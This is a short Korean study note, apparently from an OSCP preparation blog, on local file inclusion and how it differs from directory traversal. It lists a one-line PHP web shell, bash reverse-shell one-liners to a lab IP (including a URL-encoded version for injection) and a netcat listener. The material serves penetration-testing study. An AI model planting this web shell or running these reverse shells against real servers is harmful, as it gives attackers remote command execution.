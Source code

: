 ```yaml
---
layout: post
title: 9.2. File Inclusion Vulnerabilities
subtitle: 파일 인클루전
author: 마준영
categories: oscp
tags: 
top: 0
---
```

## 9.2.1. Local File Inclusion (LFI)

LFI취약점은 언뜻 보면 디랙토리 트래버셜과 비슷해보이지만 차이가 있다.
1. 디렉토리 트래버셜 : 웹 서버의 웹 루트 외부에 있는 파일 내용을 읽는 데 사용됨.
2. LFI : 애플리케이션의 실행 중인 코드에 파일을 포함 시킴.
   이로 인해 파일을 실행하거나 비실행 파일의 내용을 표시할 수 있음.
결론 : 디렉토리 트래버셜은 정보를 수집한다면, LFI는 RCE의 역할을 수행한다고 볼 수 있다.

#### 관련 코드 및 명령어
1. PHP 한줄 웹쉘
   ```php
<?php echo system($_GET['cmd']); ?>
```
2. 리버스쉘
	1. 
   ```shell
   bash -i >& /dev/tcp/192.168.119.3/4444 0>&1
   bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
   bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
   
```
3. 리버스쉘 대기
   ```shell
   nc -nvlp 4444
```
